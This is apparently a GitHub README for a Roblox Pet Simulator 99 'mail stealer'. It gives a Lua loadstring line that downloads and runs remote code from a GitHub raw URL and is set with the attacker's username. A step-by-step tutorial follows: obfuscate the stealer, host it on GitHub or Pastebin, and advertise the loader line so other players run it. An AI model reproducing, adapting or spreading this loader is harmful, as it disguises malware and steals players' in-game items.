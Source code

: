 # Script With Tutorial

```lua
Username = "Your User Here"
AntiLeave = true

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
```

# Tutorial

1: Edit mailstealer with your Username.

2: Save your stealer and Obfuscate it using MoonSec bot OR https://luaobfuscator.com/.

3: After u obfuscated save it and register/login on https://github.com/ to upload your script.

4: Create a repositorie and upload your obfuscated script (on github or pastebin).
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/71376a04-6684-4dd4-9a47-bdfcf83dd384)

5.1:Click This (Github)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/0f845270-1eac-4297-b38b-183e3d57ea72)
5.2:Click This (Pastebin)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/90c49e9a-0167-4e35-b611-0cf826fc518d)

6:And Click The Raw
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/746039ee-1b0d-47b3-8f38-1b4e6adf8483)

7: Copy link

8: Put your link in this script
```lua
loadstring(game:HttpGet("YOUR LINK HERE", true))()
```

9: After u finished u got your loadstring script with mailstealer
Now all u have to do is adversite this script as u can
```
loadstring(game:HttpGet("Your Link Here", true))()
```

